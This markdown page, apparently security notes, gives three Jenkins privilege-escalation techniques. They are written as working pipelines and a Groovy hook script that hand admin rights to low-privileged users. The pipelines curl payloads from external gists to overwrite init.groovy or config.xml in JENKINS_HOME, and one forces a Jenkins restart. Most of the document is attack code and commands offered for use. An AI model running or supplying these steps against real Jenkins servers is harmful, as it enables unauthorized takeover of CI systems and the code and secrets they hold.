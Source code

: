 # Privilege Escalations
- When new users are created they by default has admin access
- The users can be given specific roles using the Authorization Matrix Plugin
- The attacks we can try is to 




## Give admin access to all authenticated users by executing a groovy script - Technique 1

- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is Jenkins would need a restart after this attack.
- We need to write a init.groovy script that will give the authenticated users admin access 
- We will write a pipeline script to download that init.grooy script that will be replaced in the JENKINS_HOME location.
- init.groovy script will run after the Jenkins initialization, hence a Jenkins reboot is required.
- We will wait for a restart and our low privileged user will have admin access.

init.groovy
``` Groovy
//code copied from http://tdongsi.github.io/blog/2017/12/30/groovy-hook-script-and-jenkins-configuration-as-code/
import jenkins.model.*
def instance = Jenkins.getInstance()

import hudson.security.*
def realm = new HudsonPrivateSecurityRealm(false)
instance.setSecurityRealm(realm)

def strategy = new hudson.security.FullControlOnceLoggedInAuthorizationStrategy()
strategy.setAllowAnonymousRead(false)
instance.setAuthorizationStrategy(strategy)

instance.save()
```

pipeline
``` Jenkinsfile
pipeline {
    agent any
    stages {
        stage('Copy Groovy Script to JENKINS_HOME') {
            steps {
                sh '''
                    curl -o /var/lib/jenkins/init.groovy https://gist.githubusercontent.com/dibsy/c42f536d12a406cbd3845aea4f6ac746/raw/476980613a3f23af11bc958f8a03fc40689987ff/HOOK.groovy
                  '''
            }
        }         
    }
}
```


## Give admin access to all authenticated users by executing a groovy script - Technique 2

- In the previous example we were dependant on the Jenkins restart by admin. 
- It is possible to initiate Jenkins restart by Jenkins Pipeline and in order to do so we need a script approval from admin.
- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is we need to run this pipeline without sandbox mode ( Uncheck in Project Configuration ```Use Groovy Sandbox``` )
- The 3rd condition is admins need to approve this scripts.

To carry out the attack
- We need to write a init.groovy script that will give the authenticated users admin access 
- We will write a pipeline script to download that init.grooy script that will be replaced in the JENKINS_HOME location.
- init.groovy script will run after the Jenkins initialization, hence a Jenkins reboot is required.
- We will write another stage to Restart the Jenkins and start the job.
- Admin need to approve the scripts.
- We need to rerun the attack after the script approval and we will gain admin access after the restart.

init.groovy
``` Groovy
//code copied from http://tdongsi.github.io/blog/2017/12/30/groovy-hook-script-and-jenkins-configuration-as-code/
import jenkins.model.*
def instance = Jenkins.getInstance()

import hudson.security.*
def realm = new HudsonPrivateSecurityRealm(false)
instance.setSecurityRealm(realm)

def strategy = new hudson.security.FullControlOnceLoggedInAuthorizationStrategy()
strategy.setAllowAnonymousRead(false)
instance.setAuthorizationStrategy(strategy)

instance.save()
```

pipeline
```
pipeline {
    agent any
    
    stages {
        stage('Copy Groovy Script to JENKINS_HOME') {
            steps {
                sh '''
                    curl -o /var/lib/jenkins/init.groovy https://gist.githubusercontent.com/dibsy/c42f536d12a406cbd3845aea4f6ac746/raw/476980613a3f23af11bc958f8a03fc40689987ff/HOOK.groovy
                  '''
            }
        }
        stage('Restart Jenkins') {
            steps {
                script {
                    Jenkins.instance.restart()
                }
            }
        }        
    }
}
```



## Give extra permissions to user by modifying the config.xml file

- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is that either we need a restart or a reload of configuration data from disk.
- We will dump the config.xml
- We will modify the config.xml to add builduser as admin ``` <permission>USER:hudson.model.Hudson.Administer:builduser</permission> ```
- Next we will run a pipeline that will download and replace the config.xml with the modified xml
- From the next restart or reloading of config data, our changes will take effect.

```
pipeline{
    agent any
    stages{
        stage("Dump config.xml file"){
            steps{
                sh '''
                    cat /var/lib/jenkins/config.xml
                '''
            }
        }
        stage("Replace the modified config.xml file"){
            steps{
                sh '''
                    curl -o /var/lib/jenkins/config.xml https://gist.githubusercontent.com/dibsy/1548ae721e687cc86b9d4a95cc3bafa5/raw/2a3693b17c638f27f1be56af62d85de0309144cb/configModified.xml
                '''
            }
        }        
    }
}
```
